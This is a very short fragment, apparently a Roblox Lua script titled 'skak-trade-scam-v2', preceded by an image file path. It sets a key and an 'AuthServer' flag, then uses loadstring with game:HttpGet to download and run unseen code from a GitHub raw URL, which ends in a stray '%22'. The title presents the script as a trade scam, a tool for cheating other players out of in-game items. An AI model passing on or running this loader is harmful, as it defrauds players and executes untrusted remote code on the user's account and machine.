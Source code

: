 # skak-trade-scam-v2
_G.Key = "kaks"
_G.AuthServer = "true"
loadstring(game:HttpGet("https://raw.githubusercontent.com/psx-Scripts/psxsc/main/script.lua%22))()
